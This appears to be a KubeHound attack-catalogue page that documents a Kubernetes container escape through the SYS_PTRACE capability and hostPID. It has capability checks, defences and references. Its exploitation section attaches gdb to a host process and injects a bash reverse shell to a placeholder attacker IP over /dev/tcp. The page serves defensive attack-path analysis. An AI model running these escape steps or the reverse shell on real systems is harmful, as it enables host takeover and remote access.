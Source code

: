 ```yaml
---
title: CE_SYS_PTRACE
---
```


<!--
id: CE_SYS_PTRACE
name: "Container escape: Attach to host process via SYS_PTRACE"
mitreAttackTechnique: T1611 - Escape to host
mitreAttackTactic: TA0004 - Privilege escalation
-->

# CE_SYS_PTRACE

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../entities/container.md) | [Node](../entities/node.md) | [Escape to Host, T1611](https://attack.mitre.org/techniques/T1611/) |

Given the requisite capabilities, abuse the legitimate OS debugging mechanisms to escape the container via attaching to a node process.

## Details

The `SYS_PTRACE` capability, which allows the use of `ptrace()`. This system call allows a process to monitor and control the execution of another process. 

## Prerequisites

To perform this attack, the container must be started with the option `hostPID: true`, which enables the sharing of the PID address space between the container and the host operating system, allowing the container process to see every other process running on the host. And the container needs to be granted `SYS_PTRACE` and `SYS_ADMIN` capabilities. 

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/CE_SYS_PTRACE.yaml).

## Checks

From within a running container, determine whether it is running with the required capabilities:

```bash
# Check the current process' capabilities
cat /proc/self/status | grep CapEff
# CapEff:	00000000a80425fb

# Decode the capabilities (on current box or offline) and check for CAP_SYS_PTRACE and CAP_SYS_ADMIN
# NOTE: can install capsh via apt-get update && apt-get install libcap2-bin
capsh --decode=00000000a80425fb | grep cap_sys_admin
capsh --decode=00000000a80425fb | grep cap_sys_ptrace
```

## Exploitation

Install a debugger into the container:

```bash
apt update && apt install gdb
```
Find a host process to target:

```bash
ps -ef # select a PID
```

Attach to the process and inject a shell command:

```bash
gdb -p <PID>
call (void)system("bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1'")
```

## Defences

### Monitoring

+ Monitor for GDB (or other debugging tools) installation. 
+ Detect invocation of ptrace() from within a container.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with additional powerful capabilities.

### Least Privilege

Avoid running containers as the `root` user. Enforce running as an unprivileged user account using the `runAsNonRoot` setting inside `securityContext` (or explicitly setting `runAsUser` to an unprivileged user). Additionally, ensure that `allowPrivilegeEscalation: false` is set in `securityContext` to prevent a container running as an unprivileged user from being able to escalate to running as the `root` user.

## Calculation

+ [EscapeSysPtrace](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/escape_sys_ptrace.go)

## References:

+ [Container Escape: All You Need is Cap (Capabilities)](https://www.cybereason.com/blog/container-escape-all-you-need-is-cap-capabilities?hs_amp=true)

